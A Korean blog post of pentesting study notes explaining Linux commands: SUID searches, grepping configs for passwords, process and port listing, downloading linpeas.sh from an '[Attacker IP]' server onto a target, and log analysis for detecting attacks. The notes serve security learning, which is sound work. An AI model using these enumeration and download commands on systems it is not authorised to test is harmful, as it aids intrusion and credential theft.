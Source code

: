 ```yaml
---
layout: post
title: "리눅스 명령어 공부"
date: 2025-09-02 17:00:00 +0900
categories: [시스템 해킹]
---
```


### 1. 개요

침투 테스트 및 보안 분석 과정에서 리눅스 명령어는 기본적인 도구로 활용된다. 시스템 정보 수집, 서비스 확인, 스크립트 준비 등 다양한 작업이 터미널을 통해 이루어진다.

---

### 2. 파일 및 텍스트 처리

*   **find**: 특정 조건의 파일을 검색한다. 권한 상승의 단서가 되는 SUID 설정 파일이나 설정 오류가 의심되는 파일을 찾을 때 유용하다.
    *   **주요 옵션:**
        *   `-perm`: 특정 권한을 가진 파일을 검색한다. (`-u=s`, `-4000`은 SUID)
        *   `-name`: 특정 이름 패턴을 가진 파일을 검색한다.
        *   `-type`: 파일의 종류를 지정한다. (`f`: 파일, `d`: 디렉터리)
    ```bash
    # 루트 디렉터리부터 SUID 비트가 설정된 파일을 검색하고 권한 오류는 출력하지 않음
    find / -perm -u=s -type f 2>/dev/null
    ```
*   **grep**: 파일이나 파이프라인 출력에서 특정 문자열 패턴을 필터링한다. 로그 파일 분석이나 설정 파일에서 민감 정보를 찾을 때 사용된다.
    *   **주요 옵션:**
        *   `-r`: 지정된 디렉터리의 하위 폴더까지 재귀적으로 검색한다.
        *   `-i`: 대소문자를 구분하지 않고 검색한다.
        *   `-v`: 특정 패턴을 제외한 모든 라인을 출력한다.
    ```bash
    # 웹 서버 설정 파일 디렉터리부터 'password' 문자열을 하위 폴더까지 검색
    grep -r "password" /etc/apache2/
    ```

---

### 3. 프로세스 및 네트워크 확인

*   **ps**: 현재 시스템에서 동작하고 있는 프로세스의 목록을 보여준다. 이를 통해 시스템 권한으로 실행되는 비정상적인 프로세스를 확인할 수 있다.
    *   **주요 옵션 조합 `aux`:**
        *   `a`: 다른 사용자의 프로세스도 보여준다.
        *   `u`: 사용자 중심의 포맷으로 출력한다.
        *   `x`: 터미널에 연결되지 않은 프로세스(데몬)도 보여준다.
    ```bash
    # 시스템에서 실행 중인 모든 프로세스를 상세 정보와 함께 보여줌
    ps aux
    ```
*   **netstat**: 현재 시스템에서 열려 있는 포트와 네트워크 연결 상태를 보여준다. 최신 시스템에서는 `ss` 명령어가 더 빠른 성능을 보인다.
    *   **주요 옵션 조합 `tulpn`:**
        *   `t`: TCP 포트를 보여준다.
        *   `u`: UDP 포트를 보여준다.
        *   `l`: 연결 대기(Listen) 상태의 포트만 보여준다.
        *   `p`: 해당 포트를 사용하는 프로세스의 이름과 PID를 보여준다.
        *   `n`: 호스트 이름 대신 IP 주소로 보여준다.
    ```bash
    # 리스닝 중인 모든 TCP/UDP 포트와 해당 포트를 사용하는 프로세스 정보를 보여줌
    netstat -tulpn
    ```

---

### 4. 원격 데이터 전송

*   **wget**: 원격 서버의 파일을 다운로드하여 저장한다. 공격자 PC의 웹 서버에서 권한 상승 진단 스크립트(`linpeas.sh`)를 공격 대상 서버로 옮길 때 사용된다.
    *   **주요 옵션:**
        *   `-q`: 다운로드 과정을 출력하지 않는다 (Quiet).
        *   `-O <file>`: 다운로드한 내용을 지정된 파일 이름으로 저장한다. (`-O -`는 표준 출력으로 보냄)
    ```bash
    # 공격자 PC에서 실행 중인 웹 서버로부터 linpeas.sh를 다운로드
    wget http://[Attacker IP]:8000/linpeas.sh
    ```
*   **curl**: URL을 통해 데이터를 전송하고 그 결과를 터미널에 직접 출력한다. 파일 저장 없이 API 응답을 확인하거나 웹 페이지 소스를 분석할 때 유용하다.
    *   **주요 옵션:**
        *   `-X <METHOD>`: `GET`, `POST` HTTP 메서드를 지정한다.
        *   `-d <data>`: `POST` 요청 시 전송할 데이터를 지정한다.
    ```bash
    # DVWA 로그인 페이지에 POST 요청을 보내고 응답을 확인
    curl -X POST -d "username=admin&password=password&Login=Login" http://[Attacker IP]/login.php
    ```

### 5. 기본 로그 분석

시스템에 남겨진 로그 파일을 분석하여 공격 시도나 비정상적인 활동을 탐지할 수 있다. `grep`, `tail`과 같은 명령어는 대량의 로그에서 유의미한 정보를 필터링하는 데 사용된다.

#### **주요 로그 파일 (Ubuntu 기준)**
*   `/var/log/auth.log`: 사용자 로그인, `sudo` 명령어 사용 인증 관련 기록.
*   `/var/log/apache2/access.log`: 웹 서버 접속 기록.

#### **로그 분석 예시**
*   **SSH 로그인 실패 기록 확인:**
    `/var/log/auth.log` 파일에서 "Failed password" 문자열을 검색하여 무차별 대입 공격 시도를 탐지한다.
    ```bash
    grep "Failed password" /var/log/auth.log
    ```
*   **특정 IP의 웹 서버 접근 기록 확인:**
    `access.log`에서 특정 IP의 접근 기록을 필터링한다.
    ```bash
    grep "[Attacker IP]" /var/log/apache2/access.log
    ```

이러한 로그 분석은 [A09: 보안 로깅 및 모니터링 실패](https://hamap0.github.io/projects/owasp-top-10/2025/09/02/A09_Security-Logging-and-Monitoring-Failures.html) 프로젝트에서 로그의 중요성을 이해하는 기반이 된다.

<hr class="short-rule">